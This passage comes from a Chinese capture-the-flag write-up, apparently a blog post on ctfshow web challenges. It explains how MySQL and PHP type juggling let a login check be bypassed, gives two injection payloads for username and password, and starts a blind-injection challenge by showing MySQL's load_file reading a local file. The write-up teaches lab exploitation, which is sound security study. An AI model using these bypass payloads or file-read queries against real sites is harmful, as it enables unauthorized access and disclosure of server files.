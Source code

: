 这个时候 会返回所有的内容



<img src="https://i-blog.csdnimg.cn/blog_migrate/7b5bee5dc37cdb32b449676a0b1b4ada.png" alt="" style="max-height:210px; box-sizing:content-box;" />


为什么呢 因为 name一般都是字符

在mysql中

字符和数字进行比较 会将字符变为 0 开头的

所以就可以比对成功

然后我们需要绕过密码

```php
  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```

这里其实也是一样的 如果pass 是字符 那么就返回0 所以password=0 就可以登入成功

所以这里有两个payload

```cobol
username=1||1&password=0
 
username=0&password=0
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/550bf2b0e8bb89603695e624d402644c.png" alt="" style="max-height:551px; box-sizing:content-box;" />


## web189 盲注读取文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/a68067577bdb939404dcef340e369ffc.png" alt="" style="max-height:169px; box-sizing:content-box;" />


这里我们先学习一下 mysql读取文件的方式

我们可以通过 load_file实现

```cobol
MariaDB [test]> select load_file('/mnt/c/Users/Administrator/Desktop/1.txt');
+-------------------------------------------------------+
| load_file('/mnt/c/Users/Administrator/Desktop/1.txt') |
+-------------------------------------------------------+
| aaa                                                   |
+-------------------------------------------------------+
```

这里我们发现 可以读取 那么如何配合盲注呢
